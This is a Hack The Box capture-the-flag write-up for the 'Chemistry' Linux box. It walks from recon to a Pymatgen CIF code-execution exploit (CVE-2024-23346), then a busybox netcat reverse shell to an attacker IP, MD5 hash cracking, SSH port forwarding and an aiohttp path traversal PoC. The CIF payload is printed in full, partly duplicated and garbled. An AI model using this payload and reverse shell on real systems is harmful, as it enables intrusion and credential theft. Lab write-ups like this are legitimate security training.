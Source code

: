 ![image](https://github.com/user-attachments/assets/81146324-46a2-4112-a69d-7cd2f5ea7918)

<br>

**PLATFORM : Hack The Box**

**BOX : Chemistry**

**DIFFICULTY : Easy**

**OS : Linux**

**AUTHOR: Francesco Basile**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.

<br>
 
    $ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt
    Starting Nmap 7.80 (https://nmap.org) at 2024-10-22 23:37 CEST
    Nmap scan report for chemistry (10.10.11.38)
    Host is up (0.51s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  upnp?
    | fingerprint-strings:
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/3.0.3 Python/3.9.5
    |     Date: Tue, 22 Oct 2024 21:37:54 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 719
    |     Vary: Cookie
    |     Connection: close
    |
    |     class="title">Chemistry CIF Analyzer
    |
    |     Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.


<br><br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

<br>

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Searching the web i find the recent *CVE-2024-23346* 

    https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.
All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

<br>

    data_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d indata_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
    ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" +
    "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("INSERT PAYLOAD");0,0,0'
    
    _space_group_magn.number_BNS  62.448
    _space_group_magn.name_BNS  "P  n'  m  a'  " 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

<br>

    busybox nc 10.10.15.56 1337 -e sh

<br><br>

Which allows me to gain a reverse shell:

<br>

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

<br>

    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br><br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

<br>

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

And finally i get an initial foothold on the machine. I have a set of credentials to access ssh:

<br>

    rosa:<PASSWORD>

<br><br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

<br>

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH Port Forwarding* to our remote host, using the following command:

<br>

    ssh -L 8080:localhost:8080 rosa@10.10.11.38

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 

<br>

*Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080*

<br>

It basically means that i can direct external traffic, like a scan or even access the service from a browser if possible, 
to an internal service on a remote machine that otherwise would be accessible only from the box itself.
Nmap shows me that Chemistry is running *aiohttp 3.9.1*...

<br>

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

...and this is the first result if i search it on google:

<br>

    https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

<br>

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

<br>

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success! I have partial root access that can be leveraged to a shell and eventual full compromise of the box!
